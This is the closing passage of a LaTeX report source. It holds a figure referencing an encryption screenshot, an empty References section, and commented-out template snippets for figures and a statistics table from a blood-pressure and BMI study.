   
\includegraphics[scale=0.3]{images/screen_encypt.png}
   \caption{}
   \centering
\end{figure}

\pagebreak
\pagebreak
%-------------------------------------------------------------------------------
% REFERENCES
%-------------------------------------------------------------------------------
\newpage
\section*{References}
\addcontentsline{toc}{section}{References}

\end{document}

%-------------------------------------------------------------------------------
% SNIPPETS
%-------------------------------------------------------------------------------

%\begin{figure}[!ht]
%   \centering
%   \includegraphics[width=0.8\textwidth]{file_name}
%   \caption{}
%   \centering
%   \label{label:file_name}
%\end{figure}

%\begin{figure}[!ht]
%   \centering
%   \includegraphics[width=0.8\textwidth]{graph}
%   \caption{Blood pressure ranges and associated level of hypertension (American Heart Association, 2013).}
%   \centering
%   \label{label:graph}
%\end{figure}

%\begin{wrapfigure}{r}{0.30\textwidth}
%   \vspace{-40pt}
%   \begin{center}
%       \includegraphics[width=0.29\textwidth]{file_name}
%   \end{center}
%   \vspace{-20pt}
%   \caption{}
%   \label{label:file_name}
%\end{wrapfigure}

%\begin{wrapfigure}{r}{0.45\textwidth}
%   \begin{center}
%       \includegraphics[width=0.29\textwidth]{manometer}
%   \end{center}
%   \caption{Aneroid sphygmomanometer with stethoscope (Medicalexpo, 2012).}
%   \label{label:manometer}
%\end{wrapfigure}

%\begin{table}[!ht]\footnotesize
%   \centering
%   \begin{tabular}{cccccc}
%   \toprule
%   \multicolumn{2}{c} {Pearson's correlation test} & \multicolumn{4}{c} {Independent t-test} \\
%   \midrule    
%   \multicolumn{2}{c} {Gender} & \multicolumn{2}{c} {Activity level} & \multicolumn{2}{c} {Gender} \\
%   \midrule
%   Males & Females & 1st level & 6th level & Males & Females \\
%   \midrule
%   \multicolumn{2}{c} {BMI vs. SP} & \multicolumn{2}{c} {Systolic pressure} & \multicolumn{2}{c} {Systolic Pressure} \\
%   \multicolumn{2}{c} {BMI vs. DP} & \multicolumn{2}{c} {Diastolic pressure} & \multicolumn{2}{c} {Diastolic pressure} \\
%   \multicolumn{2}{c} {BMI vs. MAP} & \multicolumn{2}{c} {MAP} & \multicolumn{2}{c} {MAP} \\
%   \multicolumn{2}{c} {W:H ratio vs. SP} & \multicolumn{2}{c} {BMI} & \multicolumn{2}{c} {BMI} \\
%   \multicolumn{2}{c} {W:H ratio vs. DP} & \multicolumn{2}{c} {W:H ratio} & \multicolumn{2}{c} {W:H ratio} \\
%   \multicolumn{2}{c} {W:H ratio vs. MAP} & \multicolumn{2}{c} {\% Body fat} & \multicolumn{2}{c} {\% Body fat} \\
%   \multicolumn{2}{c} {} & \multicolumn{2}{c} {Height} & \multicolumn{2}{c} {Height} \\
%   \multicolumn{2}{c} {} & \multicolumn{2}{c} {Weight} & \multicolumn{2}{c} {Weight} \\
%   \multicolumn{2}{c} {} & \multicolumn{2}{c} {Heart rate} & \multicolumn{2}{c} {Heart rate} \\
%   \bottomrule
%   \end{tabular}
%   \caption{Parameters that were analysed and related statistical test performed for current study. BMI - body mass index; SP - systolic pressure; DP - diastolic pressure; MAP - mean arterial pressure; W:H ratio - waist to hip ratio.}
%   \label{label:tests}
%\end{table}
